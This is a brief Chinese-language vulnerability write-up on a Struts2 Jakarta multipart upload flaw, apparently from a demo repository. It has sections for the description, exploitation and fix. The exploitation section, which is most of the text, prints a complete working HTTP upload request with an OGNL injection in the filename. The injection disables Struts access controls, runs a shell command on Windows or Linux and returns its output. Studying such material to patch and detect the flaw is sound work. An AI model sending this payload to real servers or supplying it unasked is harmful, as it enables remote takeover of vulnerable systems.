 ### 一 漏洞描述
在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。  
Content-Disposition中的Filename参数存在空字节，在检查时会抛出异常，进入buildErrorMessage()方法。
恶意用户可在上传文件时通过修改HTTP请求头中的Content-Disposition的filename来触发该漏洞，进而执行系统命令。

### 二 漏洞利用
```
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2

------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--
```

### 三 漏洞修复
升级到 Struts 2.3.32

> 参考链接
> https://github.com/xhycccc/Struts2-Vuln-Demo/tree/master/s2-045
